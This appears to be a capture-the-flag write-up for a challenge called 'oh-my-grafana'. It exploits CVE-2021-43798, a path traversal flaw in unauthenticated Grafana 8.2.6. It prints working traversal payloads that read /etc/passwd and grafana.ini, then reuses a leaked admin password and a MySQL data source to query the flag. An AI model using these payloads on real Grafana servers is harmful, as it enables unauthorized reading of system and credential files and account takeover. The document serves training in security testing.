 # oh-my-grafana-EN

According to the 'cve-2021-43798' version 8.2.6 of grafana, there is LFI in unauthenticated state, and POC is

```
/public/plugins/alertlist/../../../../../../../../../../../../../etc/passwd
```

You can read grafana config file

```
/public/plugins/alertlist/../../../../../../../../../../../../../etc/grafana/grafana.ini
```

Two of the information are suspicious

```
# default admin user, created on startup
admin_user = admin

# default admin password, can be changed before first start of grafana,  or in profile settings
admin_password = 5f989714e132c9b04d4807dafeb10ade


# Either "mysql", "postgres" or "sqlite3", it's your choice
;type = mysql
;host = mysql:3306
;name = grafana
;user = grafana
# If the password contains # or ; you have to wrap it with triple quotes. Ex """#password;"""
;password = grafana
```

Set the access password of admin, and use the password `5f989714e132c9b04d4807dafeb10ade` to log in to the background; At the same time, it is found that there is a group of MySQL login password information. Using the `Data sources` function in`Configuration`, specify to load the remote MySQL data service, read the table information and column information by executing SQL statements, and finally read the flag.

```
select flag from fffffflllllllllaaaagggggg
```
